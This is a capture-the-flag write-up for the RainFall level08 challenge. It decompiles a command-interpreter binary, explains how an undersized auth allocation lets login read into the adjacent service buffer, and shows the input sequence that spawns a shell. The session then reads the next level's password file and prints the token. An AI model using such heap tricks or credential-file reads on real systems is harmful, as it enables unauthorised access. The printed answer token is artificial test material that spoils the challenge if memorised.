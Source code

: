 # level08

1. Decompilation with Ghidra

    The binary contains a command interpreter with several commands:

    ```c
    undefined4 main(void)
    {
        char local_90 [5];
        char local_8b [2];
        char acStack_89 [125];
        
        do {
            printf("%p, %p \n",auth,service);
            fgets((char *)local_90,0x80,stdin);
            
            if (strncmp(local_90, "auth ", 5) == 0) {
                auth = (char *)malloc(4);
                auth[0] = '\0';
                if (strlen(local_8b) < 0x1f) {
                    strcpy(auth,local_8b);
                }
            }
            
            if (strncmp(local_90, "reset", 5) == 0) {
                free(auth);
            }
            
            if (strncmp(local_90, "service", 6) == 0) {
                service = strdup(acStack_89);
            }
            
            if (strncmp(local_90, "login", 5) == 0) {
                if (*(int *)(auth + 0x20) == 0) {
                    fwrite("Password:\n",1,10,stdout);
                }
                else {
                    system("/bin/sh");
                }
            }
        } while( true );
    }
    ```

2. Analysis of the vulnerability

    The vulnerability:
    - The `login` command checks if `*(auth + 0x20)` is non-zero to grant shell access.
    - `auth` is allocated with only 4 bytes via `malloc(4)`.
    - The `service` command allocates memory via `strdup()` which uses `malloc()`.
    - Due to heap allocation behavior, if we allocate `auth` then `service` with enough data, the `service` buffer will be placed adjacent to `auth` in memory.
    - This makes `*(auth + 0x20)` (32 bytes offset) point into the `service` buffer, allowing us to control its value.

3. Finding the exploit strategy

    Memory layout after allocations:

    ```
    auth     -> malloc(4)      at address X
    service  -> strdup("...") at address X + small_offset
    
    *(auth + 0x20) will read from service buffer if service is long enough
    ```

4. Exploitation

    Steps to exploit:

    1. Create an `auth` structure (allocates 4 bytes):

    ```bash
    auth A
    ```

    2. Allocate `service` with a string long enough to reach `auth + 0x20`:

    ```bash
    service CCCCCCCCCCCCCCCCCCCC
    ```

    3. Trigger the `login` command:

    ```bash
    login
    ```

    Full exploitation session:

    ```bash
    level8@RainFall:~$ ./level8
    (nil), (nil) 
    auth A
    0x804a008, (nil) 
    service CCCCCCCCCCCCCCCCCCCCC
    0x804a008, 0x804a018 
    login
    $ whoami
    level9
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    ```

5. Token discovered

    The token is: `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`
